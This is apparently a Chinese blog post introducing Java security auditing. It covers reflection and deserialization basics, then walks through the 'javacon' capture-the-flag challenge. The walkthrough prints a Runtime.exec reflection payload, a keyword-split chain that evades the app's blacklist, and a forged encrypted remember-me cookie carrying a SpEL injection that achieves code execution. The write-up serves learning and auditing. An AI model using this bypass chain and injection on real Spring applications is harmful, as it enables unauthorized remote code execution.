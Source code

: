 ```yaml
---
layout: post
title: java审计入门
slug: java-audit
date: 2019-11-17 13:53:36
status: publish
author: AlanDecode
categories: 
  - Maverick
tags:
  - Design
  - Typography
---
```


## 反射相关概念

引用p牛的一句话

> 一段代码，改变其中的变量，将会导致这段代码产⽣生功能性的变化，我称之为动态特性

PHP本身有很多的动态特性，java虽然没有那么灵活，但是java的反射赋予了Java一些动态地特性



我在学习java的时候，一直不太清楚java是如何获取变量的类型的，python和JavaScript都可以用`type`来分清楚这个变量的类型

后来才知道`getClass`这个方法，可以返回变量的类型

比如

```
System.out.println("a".getClass());

输出class java.lang.String

System.out.println(new Integer(1).getClass());

输出class java.lang.Integer

System.out.println(Runtime.getRuntime().getClass());
输出 class java.lang.Runtime
```

这样就知道了这个对象属于哪个类



其实我们不止可以获得对象属于哪个类，我们还可以调用这个对象所属的类的方法

来看一个最常用的payload

```java
Class clazz = Class.forName("java.lang.Runtime");
clazz.getMethod("exec", String.class).invoke(clazz.getMethod("getRuntime").invoke(clazz), "calc");        
```

1. 首先获取`java.lang.Runtime`的类型`类`
2. 然后获取`java.lang.Runtime`的方法`exec`，由于`exec`方法有重载，所以要指明参数类型`String.class`
3. 之后通过`invoke`调用，第一个参数是`Runtime`的对象，第二个参数是`calc`

invoke调用时候的规定如下：

1. 如果是一个普通方法，第一个参数是类对象
2. 如果是一个静态方法，第一个参数是类

`java.lang.Runtime`的构造函数是私有的，也就是说不能通过实例化来产生其对象，必须通过调用`java.lang.Runtime.getRuntime`方法来得到一个对象

同时`getRuntime`方法是静态方法，所以`invoke`的第一个参数是类对象，没有其他的参数了

单例模式是因为有些操作只需要做一次就够了，比如建立数据库连接之类的

故其实中还有一次反射调用

1. 获取`java.lang.Runtime`的方法`getRuntime`
2. 通过invoke调用，产生一个`Runtime`的实例对象

## 反序列化

java的反序列化是通过`ObjectOutputStream`和`ObjectInputStream`两个类来实现的，同时要序列化的类必须实现`Serializable`接口

与PHP类似，Java在序列化一个对象的时候会调用`writeObject`方法，在反序列化一个对象的时候会调用`readObject`方法



## code-breaking——javacon

一个spring框架写的登陆界面，用户名和密码都是admin，有一个remember me可以勾选

`application.yml`中有一些相关的设置

```
keywords:
  blacklist:
    - java.+lang
    - Runtime
    - exec.*\(
user:
  username: admin
  password: admin
  rememberMeKey: c0dehack1nghere1
```

`keywords`是我们之后要绕过的

仔细分析代码，其中有存在一处类似模板渲染的语句

```java
        ParserContext parserContext = new TemplateParserContext();
        Expression exp = parser.parseExpression(val, parserContext);
        SmallEvaluationContext evaluationContext = new SmallEvaluationContext();
        return exp.getValue(evaluationContext).toString();
```

其实就是与其跟黑名单做正则匹配，如果匹配成功则抛出`HttpStatus.FORBIDDEN`，如果没有匹配到则进行正常流程，在`SmallEvaluationContext`进行SpEL表达式解析。注意，这里就存在El表达式注入的问题了。

这一处位于`getAdvanceValue`函数中，调用它的是这里：

```java
    @GetMapping
    public String admin(@CookieValue(value = "remember-me", required = false) String rememberMeValue,
                        HttpSession session,
                        Model model) {
        if (rememberMeValue != null && !rememberMeValue.equals("")) {
            String username = userConfig.decryptRememberMe(rememberMeValue);
            if (username != null) {
                session.setAttribute("username", username);
            }
        }

        Object username = session.getAttribute("username");
        if(username == null || username.toString().equals("")) {
            return "redirect:/login";
        }

        model.addAttribute("name", getAdvanceValue(username.toString()));
        return "hello";
    }
```

这里相当于是admin的管理界面，首先会检查`rememberMeValue`的值，并且尝试去解密其中的用户名，同时加入到`session`中，之后执行`model.addAttribute("name", getAdvanceValue(username.toString()));`

那么这里的关键就是`cookie`中的rememberMeValue，由于我们已经知道了加密的算法和密钥(代码都是直接给的)，那么就可以通过伪造`rememberMeValue`来达到rce

首先需要一条java的反射链，因为要绕过一些关键字：

```java
String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",String.class).invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime")),"calc")
```

之后要将其构造成Spel表达式，就是增加一个`T()`

先本地测试弹一个计算器

```
System.out.println(Encryptor.encrypt("c0dehack1nghere1", "0123456789abcdef", "#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"calc\"})}"));
```

生成的payload

```
bvik1nAmjEAllRdn5UKWGC9uCj0hW0P2B6k1uigkS1acKxD9b_xNi-x09UGgjU1DvDEI2GGk4Jn0ApM_cSVc0G7kGnvvtewNRVsfqFUCR0fMAPqbj6yqACW6XVtt8Fp1nBwebKd7pkYSZCv6Yj3X7H-0-8HDV6F3sS3yWHUQEBPAyiNmKfkSKUV5VVlNdo16Nij8YX8HvKdeMHJ7_5Sdjfmfq3dKPeUOivMyVp_GdEkffgly4YX4eWCOzQRr4uQgodsKw2pC9N9udnw3Fz7O5ZhzmoYttjLubBowMtkF-Q6HHCvBrK9SWCzRQXC6jqYX_XeqyZuDreUixnpXpzlN9Gj_AWy8DB8Dxea8atf2wr8=
```

之后登陆再替换掉cookie

![1573973547431](java审计入门/1573973547431.png)

当然后续还有其他的利用过程去读flag,就不一一细说了

